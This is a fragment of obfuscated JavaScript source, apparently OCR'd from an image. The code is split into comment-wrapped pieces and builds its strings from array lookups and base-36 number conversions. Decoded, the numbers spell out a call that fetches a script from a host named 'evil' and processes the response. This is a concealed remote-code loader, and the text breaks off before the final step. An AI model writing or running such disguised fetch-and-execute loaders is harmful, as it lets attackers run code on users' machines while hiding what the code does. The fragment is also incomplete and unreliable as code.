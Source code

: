 */Y[7]+/*
*/F[3]+/*
*/T[0]+/*
*/T[1]+/*
*/T[2]+/*
*/Y[3]+/*
*/Y[4]+/*
*/Y[6]+/*
*/T[1];/*
*/S=""/*
*/[C]/*
*/+[];/*
*/N=/*
*/C[8]+/*
*/C[9]+/*
*/S[9]+/*
*/S[10]+/*
*/S[11]+/*
*/S[12]+/*
*/S[13]+/*
*/S[14];/*
*/Q=/*
*/X[C];/*
*/R=A=>/*
*/Q(A);/*
*/O=A=>/*
*/A[N]/*
*/(36);/*
*/V=2588/*
*/*10000/*
*/+5457/*
*/J=O(V)/*
*/J+=/*
*/"('//"/*
*/V=/*
*/694029/*
*/J+=/*
*/O(V);/*
*/J+=/*
*/"/";/*
*/J+=/*
*/O(712)/*
*/J+=/*
*/"')."/*
*/W=1375/*
*/*1000/*
*/+583/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"=>"/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"."/*
*/V=W-/*
*/3198/*
*/J+=/*
*/O(V)/*
*/J+=/*